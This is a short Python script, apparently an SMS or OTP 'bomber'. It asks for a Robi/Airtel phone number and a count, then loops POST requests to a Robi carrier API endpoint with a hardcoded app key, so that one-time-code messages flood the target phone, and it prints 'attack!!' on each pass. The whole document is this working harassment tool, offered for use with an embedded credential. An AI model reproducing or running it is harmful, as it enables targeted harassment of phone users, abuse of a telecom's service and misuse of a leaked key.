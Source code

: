 # loser
error
import requests

# POST

print( "\033[36m")
print("____________________________________________________________")



print(str (" 			N!!L281"))

print("\033[31m")

number = str(input("	 [>] Enter your Robi/Airtel number: "))

amount= int(input("	 [>] your target amount: "))

api="https://circle.robi.com.bd/mylife/appapi/appcall.php?op=getOTC&pin=11844&app_version=78&msisdn=88"+number

headers={'x-app-key': '000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg'}


for i in range(amount):
  requests.post(api,headers=headers)
  print	(str(i+1)+'____attack!!✓')
